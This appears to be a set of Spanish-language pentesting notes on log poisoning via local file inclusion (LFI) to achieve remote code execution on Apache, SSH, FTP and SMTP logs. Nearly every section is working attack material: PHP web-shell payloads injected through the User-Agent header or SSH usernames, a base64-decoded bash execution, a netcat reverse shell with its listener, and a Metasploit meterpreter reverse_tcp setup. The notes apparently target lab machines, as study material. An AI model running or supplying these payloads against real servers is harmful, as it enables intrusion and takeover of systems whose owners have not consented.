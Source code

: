 Ataque de envenenamiento de logs (ficheros log del sistema) a los que se puede acceder vía LFI para conseguir RCE (Remote Code Execution).

Ataque sobre Apache:

> Archivo de logs de accesos de Apache --> `/var/log/apache2/access.log`
> Si hacemos una petición al servidor, esta será guardada en access.log
> Uso del user-agent para cargar un payload en el fichero de access.log del servidor --> `curl -s -H "User-Agent: <?php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"`
> Recargamos la página con LFI al access.log y vemos la ejecución de comandos --> `http://localhost/example.php?file=/var/log/apache2/access.log`
> El código php se ha ejecutado en el sitema

Ataque sobre SSH:

> Fichero de log de autenticación por SSH --> `/var/log/auth.log`
> Acceso con usuario no existente --> `ssh loquesea@127.0.0.1`
> En auth.log veremos una conexión rechazada.
> Obtener reverse-shell:
> `echo "nc -e /bin/bash 127.0.0.1 443"`
> `ssh '<?php system("echo '<cadena_base64>' | base64 -d | bash"); ?>'@127.0.0.1`
> Poner puerto en escucha --> `nc -nlvp 443`
> Acceder al recurso auth.log mediante el LFI --> `http://localhost/example.php?file=/var/log/auth.log`
> Obtenemos una reverse-shell

================================================================

** FTP Log Poisoning **

Sistema vulnerable a LFI  
/var/log/vsftpd.log - Fichero donde se guardan los logs del servidor FTP  
  
Payload : 
`<?php system($_GET[‘commandInjection’]); ?>`
![[Pasted image 20210913145341.png]] 
`/var/log/vsftpd.log&commandInjection=ifconfig`
![[Pasted image 20210913145417.png]]

================================================================

** SSH Log Poisoning **

`http://192.168.1.129/lfi/lfi.php?file=/var/log/auth.log`
![[Pasted image 20210913145040.png]]
`ssh '<?php system($_GET['c']); ?>'@192.168.1.129`
![[Pasted image 20210913145126.png]]
`tail -f /var/log/auth.log`
![[Pasted image 20210913145158.png]]
`http://192.168.1.129/lfi/lfi.php?file=/var/log/auth.log&c=ifconfig`
![[Pasted image 20210913145253.png]]

================================================================

** SSH Log Poisoning con Metasploit **

``` Metasploit
use exploit/multi/script/web_delivery  
	msf exploit (web_delivery)>set target 1  
	msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp  
	msf exploit (web_delivery)> set lhost 192.168.1.123  
	msf exploit (web_delivery)>set srvport 8081  
	msf exploit (web_delivery)>exploit
```

![[Pasted image 20210913145705.png]]
![[Pasted image 20210913145733.png]]

``` Metasploit
msf exploit (web_delivery)>sessions 1  
meterpreter> sysinfo
```

![[Pasted image 20210913145847.png]]

================================================================

** Apache Log Poisoning **

`http://192.168.1.129/lfi/lfi.php?file=/var/log/apache2/access.log`
![[Pasted image 20210913151043.png]]
`<?php system($_GET['c']); ?>`
![[Pasted image 20210913151118.png]]
![[Pasted image 20210913151149.png]]
`http://192.168.1.129/lfi/lfi.php?file=/var/log/apache2/access.log&c=ifconfig`
![[Pasted image 20210913151239.png]]

================================================================

** SMTP Log Poisoning **

`/var/log/mail`
![[Pasted image 20210913151351.png]]